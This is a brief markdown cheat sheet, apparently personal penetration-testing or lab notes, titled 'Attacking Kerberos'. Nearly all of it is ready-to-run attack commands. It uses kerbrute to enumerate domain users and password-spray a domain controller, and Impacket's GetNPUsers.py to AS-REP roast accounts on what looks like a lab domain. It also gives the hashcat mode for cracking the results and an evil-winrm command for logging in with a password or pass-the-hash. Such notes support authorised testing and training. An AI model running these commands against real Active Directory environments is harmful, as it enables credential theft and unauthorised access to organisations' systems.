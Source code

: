 # Attacking Kerberos

## Kerberos User Enumeration

```
./kerbrute_linux_amd64 userenum -d <fqdn> --dc <domain_controller> userlist.txt-o valid_users.txt
```   

## Kerberos Password Spray

```
./kerbrute_linux_amd64 passwordspray -d <fqdn> domain_users.txt PasswordString
```

## AsepRepRoast

```
GetNPUsers.py spookysec.local/ -usersfile valid_users.txt -dc-ip 10.10.51.196
```

Using the list of valid usernames, check if any can be asepreproasted using getnpusers 

Crack with mode 18200 which is for Kerberos 5 AS-REP etype 23.

## Evil-WinRM

```
evil-winrm -i <ip> -u <username> -p <password> -H <NThash>
```